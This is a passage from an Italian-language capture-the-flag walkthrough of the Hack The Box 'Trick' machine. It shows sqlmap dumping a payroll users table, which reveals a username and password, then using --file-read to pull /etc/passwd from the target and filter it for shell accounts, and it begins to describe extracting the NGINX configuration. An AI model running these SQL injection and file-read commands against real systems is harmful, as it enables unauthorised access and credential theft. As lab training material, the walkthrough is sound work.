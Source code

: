 ```

[10:13:30] [INFO] table 'payroll_db.users' dumped to CSV file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/dump/payroll_db/users.csv'
[10:13:30] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ 10:13:30 /2023-07-21/

```

abbiamo un  utente, con username Enemigosss, e password “SuperGucciRainbowCake”. Prenderò nota di entrambi.

### File Read with sqlmap

SQL può essere configurato in modo tale da poter leggere i file attraverso l'iniezione. sqlmap lo consente con il parametro --file-read. 

```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# sqlmap -r login.req --batch --threads 10 --file-read=/etc/passwd

...<snip>...
successfully downloaded from the back-end DBMS file system? [Y/n] Y
[10:17:47] [INFO] retrieving the length of query output
[10:17:47] [INFO] retrieved: 4
[10:17:48] [INFO] retrieved: 2351
[10:17:48] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (2351 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd (same file)

[10:17:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'
```

Leggerò il file /etc/passwd  Ci vogliono pochi minuti, ma lo scarica . Cercherò gli utenti che hanno un set di shell (rimuovendo gli account della macchina) e ne vedrò un paio:

```
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

### Find Marketing Subdomain

#### Via SQL Injection

Possiamo utilizzare la SQL injection `--file-read` per ottenere la configurazione NGINX.
So che è NGINX dall'enumerazione iniziale. Il file di configurazione predefinito sarebbe in /etc/nginx/sites-enabled/default. Estrarrò quel file con sqlmap 
